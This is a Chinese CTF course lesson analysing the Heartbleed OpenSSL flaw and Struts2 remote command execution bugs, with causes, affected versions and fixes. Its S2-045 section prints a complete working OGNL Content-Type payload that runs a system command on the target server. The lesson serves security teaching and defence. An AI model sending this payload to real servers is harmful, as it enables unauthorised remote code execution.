




# CTF入门课程：P64：重点漏洞分析_1


在本节课中，我们将学习两个在网络安全领域具有重大影响的经典漏洞：OpenSSL的“心脏滴血”漏洞和Struts2的远程命令执行漏洞。我们将分析它们的原理、影响范围以及修复方案。


## 心脏滴血漏洞分析

上一节我们介绍了本节课的主要内容，本节中我们首先来看OpenSSL的“心脏滴血”漏洞。

OpenSSL是一个强大的安全套接层密码库，它包含主要的密码算法、常用的密钥和证书封装管理功能及SSL协议，并提供丰富的应用程序供测试或其他目的使用。

心脏滴血漏洞的正式名称为Heartbleed漏洞，其CVE编号为**CVE-2014-0160**。该漏洞于2014年4月7日由国外黑客曝光，是OpenSSL中的一个重大安全缺陷。此漏洞允许攻击者从服务器内存中读取最多64KB的数据。

泄露的数据可能包含大量敏感信息，例如用户名、密码、信用卡号等。攻击者甚至可能窃取服务器的数字密钥，从而伪装成服务器或解密通信。由于使用OpenSSL的网站数量巨大，该漏洞在当时造成了极其严重的影响。

### 漏洞原理



下面我们来看一下该漏洞的原理。TLS心跳协议由一个请求包组成，其中包含一个“有效载荷”。通信的另一方会读取这个包，并发送一个包含相同载荷的响应。在处理心跳请求的代码中，载荷大小是从攻击者可控的数据包中读取的。

由于OpenSSL没有验证这个载荷大小的值是否与实际数据匹配，导致了**越界读取**内存。这造成了敏感信息泄露，泄露内容可能包括加密的私钥、用户名和口令等。

### 漏洞验证流程

以下是验证该漏洞存在的主要步骤：
1.  建立Socket连接。
2.  发送TLS Client Hello请求。
3.  发送恶意的Heartbleed攻击请求。
4.  如果服务器存在漏洞，其响应会包含泄露的内存数据。
5.  根据响应确认漏洞存在。

漏洞验证流程可以使用Python脚本自动化完成。GitHub上有许多开源的验证脚本可供参考。

### 受影响版本与修复方案

该漏洞影响的OpenSSL版本较多。您可以根据官方公告或安全公告中列举的受影响与不受影响版本列表，对服务器上的OpenSSL进行排查。

对于该漏洞的修复，主要有以下两个方面：

**官方解决方案**
OpenSSL官方已发布1.0.1g版本修复此问题，建议用户升级到此版本。对于OpenSSL 1.0.2-beta系列版本，厂商在1.0.2-beta2中进行了修复。主流的Linux发行版也已发布相关补丁，建议尽快升级。

**临时解决方案**
如果无法立即安装补丁或升级，可以采取以下临时措施以降低风险：使用 `-DOPENSSL_NO_HEARTBEATS` 选项重新编译OpenSSL。

## Struts2远程命令执行漏洞分析

在了解了心脏滴血漏洞后，本节我们来看看另一个常见的漏洞类型：Struts2框架的远程命令执行漏洞。

Struts2是一个基于MVC设计模式的Web应用框架，本质上相当于一个Servlet。在MVC模式中，Struts2作为控制器来建立模型与视图的数据交互。

自2017年以来，Struts2被曝出多个远程命令执行漏洞，这表明该框架存在的安全问题相对较多。以下是几个著名的漏洞简述：

*   **S2-045**: 攻击者可以在使用Struts2的Jakarta Multipart插件上传文件时，通过修改HTTP请求头中的`Content-Type`值来触发漏洞，导致远程代码执行。
*   **S2-046**: 这是对S2-045补丁的绕过。攻击者通过设置`Content-Disposition`的`filename`字段，或设置`Content-Length`超过2GB等方式触发异常，导致`filename`字段中的OGNL表达式被执行。
*   **S2-048**: Apache Struts 1插件存在远程代码执行的高危漏洞。攻击者可以构造恶意字段值，通过Struts2的Struts 1插件远程执行代码。
*   **S2-052**: Struts 2.5.x以及之前部分2.x版本的REST插件存在远程代码执行漏洞。成因是在使用XStreamHandler反序列化XStream实例时，未进行任何类型过滤。
*   **S2-053**: 该漏洞源于在处理Freemarker标签时，若程序员使用了不恰当的编码表达式，会导致远程代码执行。
*   **S2-054**: Apache Struts REST插件使用了过时的JSON-lib库，攻击者可以通过构造特制的JSON恶意请求，造成拒绝服务攻击。
*   **S2-055**: 由于Apache Struts2调用了存在反序列化漏洞的Jackson库，导致了反序列化漏洞的产生。

下面我们以**S2-045**为例，详细分析该漏洞的利用过程与修复方案。

### S2-045漏洞分析

S2-045漏洞是由于Struts2对错误消息处理不当导致的。攻击者通过`Content-Type`这个HTTP头注入OGNL表达式，进而执行系统命令。

具体来说，Jakarta Multipart插件在解析文件上传请求时，当`Content-Type`格式不被识别时会抛出异常。在异常处理过程中，错误信息中未经严格过滤的用户输入（即`Content-Type`头）被当作OGNL表达式执行，从而触发了远程代码执行。

该漏洞的触发点位于`LocalizedTextUtil.buildMessage`函数中。

### 漏洞检测与防护

对于该漏洞的检测，主要有以下几种方法：
*   通过公开的漏洞验证代码进行验证。
*   直接检查服务器上Struts2的版本号。
*   使用漏洞扫描工具进行检查。
*   利用在线的漏洞检测网站进行检测。


对于该漏洞的防护监测，可以通过部署安全防护设备（如WAF）来监控异常请求，并定期对Web框架进行升级和维护。

### 漏洞利用代码示例

以下是PoC中的关键代码部分。攻击者将这段构造的恶意字符串作为`Content-Type`头的值发送给服务器。其中，用于远程命令执行的OGNL代码部分已用注释标出。

```http
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```



### 受影响版本与修复方案

该漏洞影响的版本为：Struts 2.3.5 至 2.3.31，以及 Struts 2.5 至 2.5.10。
不受影响的版本为：Struts 2.3.32 及 Struts 2.5.10.1。

对于该漏洞的解决方案，同样从两个方面着手：

**官方解决方案**
官方已发布版本更新，建议用户升级到不受影响的最新版本（2.3.32 或 2.5.10.1）。

**临时修复方案**
在用户不便立即升级的情况下，可以采取以下临时措施：
1.  **修改Struts2配置**：在`WEB-INF/classes`目录下的`struts.xml`配置文件中，在`<struts>`标签下添加`<constant name="struts.custom.i18n.resources" value="global" />`。同时，在相同目录下创建`global.properties`文件，内容为`struts.messages.upload.error.InvalidContentTypeException=1`。
2.  **配置输入过滤器**：在Web应用的`web.xml`中配置过滤器，对传入的`Content-Type`头内容的合法性进行严格检测和过滤。

下图展示了临时修复方案中修改配置文件的部分：



*（图片说明：修改struts.xml并添加global.properties文件的配置截图）*

下图展示了过滤器的关键代码部分：





*（图片说明：用于过滤Content-Type的过滤器代码截图）*


## 总结


本节课中，我们一起学习了两个重要的网络安全漏洞。首先，我们分析了OpenSSL的“心脏滴血”漏洞，了解了其因未校验心跳包长度而导致的越界读内存原理、严重危害及修复方法。接着，我们深入探讨了Struts2框架的S2-045远程命令执行漏洞，分析了其通过`Content-Type`头注入OGNL表达式执行命令的利用过程，并介绍了相应的检测与防护方案。理解这些经典漏洞的原理，对于构建安全意识和防御能力至关重要。